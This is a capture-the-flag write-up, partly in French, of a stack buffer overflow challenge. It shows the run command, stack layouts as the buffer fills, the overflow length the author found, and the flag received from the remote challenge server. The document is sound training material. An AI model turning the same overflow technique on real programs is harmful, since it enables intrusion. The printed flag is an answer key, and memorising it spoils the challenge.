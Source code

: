 # Fichiers fournis par le challenge

* wrapper.py : script python pour bof, modifier les valeurs requires (IP, Port, nombre de A's) et installer pwntools (pip3 install pwntools) 
* flag.txt : Exemple de flag invalide
* gs (ghostscript) : binary instrumenting tool
* ld-linux-x86-64.so.-2 : dynamic linker/loader for Linux systems
* libc.so.6 : shared library 

# Solution 

Après quelques recherches j'ai exécuté : 

LD_PRELOAD=./libc.so.6 ./ld-linux-x86-64.so.-2 ./GS

et ma donner le output suivant : 

|      .      | <- Higher addresses
|      .      |
|_____________|
|             | <- 64 bytes
| Return addr |
|_____________|
|             | <- 56 bytes
|     RBP     |
|_____________|
|             | <- 48 bytes
|   target    |
|_____________|
|             | <- 40 bytes
|  alignment  |
|_____________|
|             | <- 32 bytes
|  Buffer[31] |
|_____________|
|      .      |
|      .      |
|_____________|
|             |
|  Buffer[0]  |
|_____________| <- Lower addresses


      [Addr]       |      [Value]       
-------------------+-------------------
0x00007ffe8f64a100 | 0x0000000000000000 <- Start of buffer
0x00007ffe8f64a108 | 0x0000000000000000
0x00007ffe8f64a110 | 0x0000000000000000
0x00007ffe8f64a118 | 0x0000000000000000
0x00007ffe8f64a120 | 0x6969696969696969 <- Dummy value for alignment
0x00007ffe8f64a128 | 0x00000000deadbeef <- Target to change
0x00007ffe8f64a130 | 0x00007f53e9739800 <- Saved rbp
0x00007ffe8f64a138 | 0x00007f53e9021c87 <- Saved return address
0x00007ffe8f64a140 | 0x0000000000008000
0x00007ffe8f64a148 | 0x00007ffe8f64a210


After we insert 4 "A"s, (the hex representation of A is 0x41), the stack layout like this:


      [Addr]       |      [Value]       
-------------------+-------------------
0x00007ffe8f64a100 | 0x0000000041414141 <- Start of buffer
0x00007ffe8f64a108 | 0x0000000000000000
0x00007ffe8f64a110 | 0x0000000000000000
0x00007ffe8f64a118 | 0x0000000000000000
0x00007ffe8f64a120 | 0x6969696969696969 <- Dummy value for alignment
0x00007ffe8f64a128 | 0x00000000deadbeef <- Target to change
0x00007ffe8f64a130 | 0x00007f53e9739800 <- Saved rbp
0x00007ffe8f64a138 | 0x00007f53e9021c87 <- Saved return address
0x00007ffe8f64a140 | 0x0000000000008000
0x00007ffe8f64a148 | 0x00007ffe8f64a210


After we insert 4 "B"s, (the hex representation of B is 0x42), the stack layout looks like this:


      [Addr]       |      [Value]       
-------------------+-------------------
0x00007ffe8f64a100 | 0x4242424241414141 <- Start of buffer
0x00007ffe8f64a108 | 0x0000000000000000
0x00007ffe8f64a110 | 0x0000000000000000
0x00007ffe8f64a118 | 0x0000000000000000
0x00007ffe8f64a120 | 0x6969696969696969 <- Dummy value for alignment
0x00007ffe8f64a128 | 0x00000000deadbeef <- Target to change
0x00007ffe8f64a130 | 0x00007f53e9739800 <- Saved rbp
0x00007ffe8f64a138 | 0x00007f53e9021c87 <- Saved return address
0x00007ffe8f64a140 | 0x0000000000008000
0x00007ffe8f64a148 | 0x00007ffe8f64a210

◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉
◉                                                                                                 ◉
◉  Fill the 32-byte buffer, overwrite the alginment address and the "target's" 0xdeadbeef value.  ◉
◉                                                                                                 ◉
◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉



___________________________________________________________________________________________________________________________________________________

J'ai vérifier le nombre de bytes a inséré pour le bof, j'ai commencer par 39 suivi de 40 et a fini par recevoir ce output par le script wrapper.py : 

python3 ./wrapper.py 
[+] Opening connection to 209.97.134.50 on port 30135: Done
[+] Flag --> HTB{b0f_s33m5_3z_r1ght?}
[*] Closed connection to 209.97.134.50 port 30135

